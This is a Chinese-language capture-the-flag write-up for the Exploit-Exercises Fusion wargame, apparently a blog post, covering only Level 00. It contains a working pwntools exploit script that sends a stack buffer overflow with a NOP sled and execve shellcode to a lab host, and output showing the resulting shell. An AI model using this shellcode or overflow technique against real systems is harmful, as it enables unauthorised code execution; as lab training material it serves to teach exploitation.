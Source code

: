 +++
title = "Exploit-Exercise_Fusion全攻略+解析"
date = 2018-08-03T01:31:36+08:00
updated = 2020-08-07T02:01:26.829857+08:00
description = "解析猴年马月...没办法，太菜的人没法做输出..."
in_search_index = true

[taxonomies]
tags = [ "WARGAME", "PWN", "stackoverflow", "mitigation",]
categories = [ "WriteUp",]
archives = [ "archive",]
+++
目前进度：

- [x] Level 00
- [ ] Level 01
- [ ] Level 02
- [ ] Level 03
- [ ] Level 04
- [ ] Level 05
- [ ] Level 06
- [ ] Level 07
- [ ] Level 08
- [ ] Level 09
- [ ] Level 10
- [ ] Level 11
- [ ] Level 12
- [ ] Level 13
- [ ] Level 14


<!-- more -->
# Level 00

```python
#!/usr/bin/python
from pwn import *
import struct

shellcode = '\xb8\x2f\x73\x68\xf0\x25\xff\xff\xff\x0f\x50\xb8\x2f\x62\x69\x6e\x50\x89\xe3\x31\xc0\xb0\x0b\x31\xc9\x31\xd2\xcd\x80'
prefix='GET '
postfix=' HTTP/1.1' 

r=remote('192.168.116.150', 20000)
r.recvuntil('er is at')
addr=int(r.recv()[0:11],16)
#print addr,hex(addr)
print hex(addr+200)
r.sendline(prefix+'G'*139+p32(addr+200)+postfix+'\x90'*100+shellcode)
r.interactive()
```



```bash
root@kali:~/Documents/Fusion# ./level00.py 
[+] Opening connection to 192.168.116.150 on port 20000: Done
0xbffff9c0
[*] Switching to interactive mode
$ id
uid=20000 gid=20000 groups=20000
```